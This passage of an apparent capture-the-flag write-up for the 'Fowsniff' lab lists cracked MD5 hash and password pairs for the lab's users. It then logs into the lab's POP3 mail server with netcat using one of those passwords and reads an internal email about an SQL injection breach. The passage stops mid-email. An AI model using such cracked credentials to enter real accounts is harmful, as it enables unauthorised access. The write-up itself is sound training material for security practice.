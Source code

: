 ```
8a28a94a588a95b80163709ab4313aa4:mailcall
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
1dc352435fecca338acfd4be10984009:apples01
19f5af754c31f1e2651edde9250d69bb:skyler22
90dc16d47114aa13671c697fd506cf26:scoobydoo2
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
4d6e42f56e127803285a0a7649b5ab11:orlando12
f7fd98d380735e859f8b2ffbbede5a7e:07011972
```

Looks like one hash is missing... The one of ```stone@fowsniff``` to be more specific.

Let's put the found credentials to use.

## POP3 Enumeration ##

We are told to connect to the ```pop3``` service with seina's credentials.

```
$ nc 10.10.253.109 110         
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
```

We can see there are two emails available. Let's check them out!

First one:

```
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
```